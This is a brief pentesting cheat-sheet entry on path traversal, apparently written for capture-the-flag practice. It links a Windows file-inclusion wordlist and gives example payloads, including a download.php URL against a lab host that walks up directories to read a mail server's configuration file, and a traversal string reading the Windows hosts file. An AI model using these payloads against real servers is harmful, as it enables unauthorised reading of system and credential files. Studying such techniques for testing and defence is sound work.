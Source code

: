 # Path Traversal

## Resources

- <https://medium.com/@Steiner254/directory-path-traversal-288a6188076>








## Windows

- <https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt>

Microsoft Internet Information Services (IIS) default location: `C:\inetpub\Wwwroot\`

```
# the webserver is C:\inetpub\wwwroot\mailing\ and uses hMailServer
http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI



../../../../../../../../windows/system32/drivers/etc/hosts

```